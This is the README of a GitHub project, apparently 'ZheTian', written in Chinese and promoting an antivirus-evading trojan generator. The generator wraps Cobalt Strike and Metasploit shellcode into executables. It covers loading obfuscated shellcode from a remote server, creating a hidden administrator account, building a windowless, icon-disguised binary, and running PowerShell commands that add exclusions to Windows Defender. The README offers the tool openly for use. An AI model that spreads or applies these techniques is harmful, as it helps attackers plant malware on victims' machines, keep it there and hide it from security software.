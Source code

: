 ![logo](images/logo.png)
# ::ZheTian Powerful Anti Anti-Virus Trojan horse generator / 强大的免杀木马生成器

## 全新V2上线，Bypass All.


### V2版本支持Cobalt Strike、MSF原生Shellcode，无需任何处理即可直接使用，指令：

> -o string：选中payload，向同级目录生成一个可执行程序（无需go语言环境）
>
> -m int：选择要生成的系统架构，参数选择32和64，默认选中了64
> 
系统依旧采用了“慢加载”方式，运行约十五秒后才开始执行上线操作

![v2](images/v2.png)

----

### V1：
![v1](images/v1.png)
### 参数：
> -u  string：从远程服务器加载base64混淆后的字符串。
>
> -r string：从本地文件内读。
>
> -s string：读取无修改的原始文件，只能从本地加载。
>
> -o boolean：向userHome\tmp目录输出一次性可执行文件，体积比主程序小了五六倍，砍去了其他功能，只保留了ShellCode Loader
>
> -n string：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
> -c string：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>

#### 运行示例：

#### Base64字符串方式加载：

原始python代码：
> buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
> \xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
>
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
> byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
>

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c
ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==

##### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s
命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

##### 图示操作过程

先生成64位shellcode

![payload](images/payload.jpg)

然后根据需要的命令进行修改
![code](images/code.png)

下面执行示例：
![run](images/run.png)

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行，但是360偶尔会识别为恶意程序

### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>

## 扩展：Windows defender

由于ZheTian的defender免杀效果不稳定，在此推荐一种方式，执行下面命令会分别向defender添加白名单：目录、进程、类型文件

#### 需以管理员权限运行

> powershell -Command Add-MpPreference -ExclusionPath "C:\tmp"
>
> powershell -Command Add-MpPreference -ExclusionProcess "java.exe"
>
> powershell -Command Add-MpPreference -ExclusionExtension ".java"
>

## 有问题加群反馈！！Issues 一概不处理！
 
<img src="images/group.png" width="350">